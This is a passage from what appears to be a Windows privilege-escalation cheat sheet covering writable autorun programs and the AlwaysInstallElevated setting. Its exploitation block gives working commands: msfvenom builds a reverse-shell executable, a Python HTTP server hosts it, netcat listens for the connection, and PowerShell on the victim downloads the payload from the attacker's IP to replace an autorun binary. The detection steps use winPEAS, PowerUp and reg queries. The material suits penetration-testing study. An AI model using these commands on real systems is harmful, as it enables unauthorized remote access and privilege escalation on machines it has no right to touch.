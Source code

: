 or

```
winPEAS.exe

[+] Autorun Applications(T1010)
    Folder: C:\Program Files\Autorun Program
    File: C:\Program Files\Autorun Program\program.exe
    FilePerms: Everyone [AllAccess]
```

##### Exploitation

```
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
cd C:\Program Files\Autorun Program\
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', '.\program.exe')

To execute it with elevated privileges we need to wait for someone in the Admin group to login.
```

#### AlwaysInstallElevated

##### Detection

```
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking for AlwaysInstallElevated registry key...

AbuseFunction : Write-UserAddMSI
```

or

```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

If both values are equal to 1 then it's vulnerable.
```

or

```
winPEAS.exe

[+] Checking AlwaysInstallElevated(T1012)

  AlwaysInstallElevated set to 1 in HKLM!
  AlwaysInstallElevated set to 1 in HKCU!
```
